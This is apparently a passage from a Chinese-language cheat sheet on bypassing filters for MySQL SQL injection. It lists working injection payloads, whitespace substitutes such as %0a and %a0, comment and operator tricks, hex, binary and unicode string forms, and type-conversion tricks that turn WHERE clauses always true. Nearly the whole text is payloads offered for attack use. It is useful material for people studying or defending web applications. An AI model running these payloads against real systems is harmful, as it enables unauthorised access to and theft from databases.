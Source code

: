 前缀：

任意混合 `+ - ~ !`

```
'or --+2=- -!!!'2
```

测试后发现`and/or`后面可以跟上偶数个`!、~`可以替代空格，也可以混合使用(混合后规律又不同)，and/or前的空格可以省略

```
'or- -!!!1=1；
```

运算符：

```
^, =, !=, %, /, *, &, &&, |, ||, <, >, <<, >>, >=, <=, <>, <=>, XOR,DIV, SOUNDS LIKE, RLIKE, REGEXP, IS, NOT, BETWEEN,……

'or 1 rlike '1
```

空格替换：`%20, %09, %0a, %0b, %0c, %0d, %a0`

也可以插入括号，前缀，操作符，引号

```
'or+(1)sounds/**/like"1"--%a0-
```

字符串格式

```
    ' or "a"='a'
    ' or 'a'=n'a'               //unicode
    ' or 'a'=b'1100001'         //binary
    ' or 'a'=_binary'1100001'   //5.5.41下测试无效
    ' or 'a'=x'61'              //16进制
```

**2、MySQL常用的一些小工具**

常量：`true， false， null， \N, current_timestamp....`

变量：`@myvar:=1`

系统变量：`@@version, @@datadir....`

常用函数：`version(), pi(), pow(), char(), substring()....`

**3、MySQL类型转换**

```
' or 1=true #true=1, false=0
' or 1 #true
' or version()=5.5 #5.5.41-log

' or round(pi(),1)+true+true+0.4=version() #3.1+1+1+0.4

select * from users where 'a'='b'='c'
select * from users where ('a'='b')='c'
select * from users where (false)='c'
select * from users where (0)='c'
select * from users where (0)=0
select * from users where true
select * from users
```
